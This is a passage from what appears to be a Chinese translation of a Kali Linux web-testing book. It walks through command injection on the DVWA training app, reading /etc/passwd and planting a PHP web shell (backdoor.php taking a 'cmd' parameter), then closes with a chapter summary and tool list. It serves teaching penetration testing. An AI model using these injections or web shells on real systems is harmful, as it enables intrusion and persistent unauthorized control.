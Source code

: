从我们的结果中，我们看到我们当前在`/owaspbwa/dvwa-git/vulnerabilities/exec`目录中，并且我们以`www-data`用户的身份执行命令。现在让我们试着打印一个文件的内容，特别是`/etc/passwd`文件。在输入字段中，输入`127.0.0.1`和`cat /etc/paswd`：

![](Images/dd2b0c08-949f-46af-ab68-60bb8f2ac836.jpg)

这段代码应该类似于我们早期 LFI 的结果。

让我们再做一件事。让我们在目录中创建一个文件，我们可以在以后执行命令时始终参考它。输入`127.0.0.1`和`echo “<?php system(\$_GET[‘cmd’]) ?>” > backdoor.php`。这应该创建一个名为`backdoor`的 PHP 文件，其中的 PHP 代码应该是 system（`\$_GET[‘cmd’]`。

现在，在浏览器中，导航到`<ip address>/dvwa/vulnerabilities/exec/backdoor.php`。

但是，页面加载时，不会显示任何内容。这是因为我们还没有传递任何命令。看看我们输入的内容，单引号中有`cmd`。这是我们的变量，用于存储要执行的命令，并将其传递给系统执行。要执行命令，请在地址栏中的`backdoor.php`之后输入`?cmd=`，然后输入您的命令。我将使用`ls`作为基本演示：

![](Images/eed2b93b-7672-43f3-86a4-03ef5d90ad26.jpg)

从这一点开始，运用你的想象力尝试不同的可能性。诚然，演示文稿需要做一些工作，但您始终可以查看源代码来清理它：

![](Images/aa4904c9-ae34-46bf-8804-5e1c3f77859a.jpg)

我想补充一点，您可以使用 Burp Suite 中的中继器来完成这些步骤，您还可以使用 Burp Suite 与`sqlmap`和 Metasploit 结合使用来获得一个 MeterMeter 外壳。

# 总结

在本章中，我们将介绍一些用于 web 应用程序测试的主要工具，并进一步介绍云应用程序，因为它们基于相同的协议构建，并且使用许多相同的平台。

正如您所知，这些漏洞有一个共同的根本原因，即未对用户输入进行消毒或验证，以确保所需数据用于处理。此外，利用一个漏洞可以利用另一个漏洞（例如，从目录遍历到文件包含）。

我们研究了 OWASP ZAP、Nikto、`sqlmap`和 Burp 套件，以识别可能的漏洞，测试并利用它们。然而，Kali 还附带了许多其他工具，可以用来进行这些测试，许多工具可以一起使用。

尤其是 Burp Suite 和 OWASP ZAP 是非常强大的独立工具，它们完成了我们所看到的所有内容，甚至完成了一些我们没有看到的内容。我们甚至可以使用它们进行目录遍历和文件包含测试。

其他一些工具如下所示：

*   Commix（命令注入漏洞工具）
*   DirBuster（web 服务器目录暴力工具）
*   侦察（网络侦察工具）
*   Sqlninja（Microsoft SQL 注入工具）

在下一章中，我们将了解无线网络分析，使用各种工具攻击网络以获得访问，以及维护网络访问的方法。我们甚至会看看建立邪恶孪生兄弟（盗贼 AP）的最初步骤。

# 进一步阅读

有许多资源可用于了解有关 web 和云应用程序测试的更多信息。以下是资源列表：

*   *卡利 Linux 网络渗透测试食谱-第二版*（Packt 出版）
*   OWASP 2017 十大最关键的 Web 应用程序安全风险：[https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)
*   OWASP 基金会：[https://www.owasp.org/index.php/Main_Page](https://www.owasp.org/index.php/Main_Page)